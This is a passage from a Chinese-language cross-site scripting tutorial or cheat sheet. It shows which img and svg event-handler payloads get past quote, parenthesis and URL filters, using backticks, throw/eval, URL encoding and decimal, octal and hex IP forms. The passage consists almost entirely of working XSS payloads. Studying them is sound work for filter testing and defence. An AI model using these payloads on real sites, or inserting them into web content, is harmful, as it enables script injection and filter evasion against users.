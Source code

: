 举例：

```
<img src="1" onerror=alert(1);>可以，
<img src=`1` onerror=alert(1);>不行；

<img src="1" onerror='alert(1)';>可以，
<img src="1" onerror=`alert(1)`;>不行；

<img src="x" onerror=alert('1');>可以，
<img src="x" onerror=alert(`1`);>可以；
```

**反引号绕过的例子：**

```
<img src="x" onerror=alert(`xss`);>
```

#### 编码绕过

### 4.括号被过滤的情况

#### 用`throw`来绕过

```html
<svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
```

### 5.url地址被过滤的情况

#### 使用url编码

```html
<img src="x" onerror=document.location=`http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/`>
```

#### 使用IP地址

**127.0.0.1**

**1.十进制IP**

```html
<img src="x" onerror=document.location=`http://2130706433/`>
```

**2.八进制IP**

```html
<img src="x" onerror=document.location=`http://0177.0.0.01/`>
```

**3.十六进制IP**

```html
<img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>
```
